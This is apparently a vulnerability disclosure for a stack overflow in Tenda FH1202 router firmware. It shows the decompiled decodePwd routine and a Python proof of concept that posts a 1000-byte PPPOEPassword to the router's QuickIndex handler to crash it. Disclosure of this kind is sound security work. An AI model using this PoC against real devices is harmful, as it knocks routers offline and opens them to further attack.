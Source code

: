 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `formQuickIndex` function. The `v5` variable receives the `PPPOEPassword` parameter from a POST request and is later assigned to the `v7` variable, which is fixed at 72 bytes. However, since the user can control the input of  `PPPOEPassword`, in function `decodePwd`, the statement: 

```c
_BYTE *__fastcall decodePwd(_BYTE *a1, _BYTE *a2)
{
  _BYTE *result; // $v0
  _BYTE *v3; // [sp+8h] [+8h]
  _BYTE *v4; // [sp+Ch] [+Ch]

  v3 = a1;
  v4 = a2;
  result = a1;
  if ( a1 )
  {
    result = a2;
    if ( a2 )
    {
      while ( *v3 )
      {
        if ( *v3 == 92 )
          ++v3;
        *v4++ = *v3++;
      }
      result = v4;
      *v4 = 0;
    }
  }
  return result;
}
```

can cause a stack overflow. The user-provided  `PPPOEPassword` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240319131821114](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319131821114.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/QuickIndex"
payload = b"a"*1000

data = {"mit_linktype":"2","PPPOEPassword": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319224347388](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224347388.png)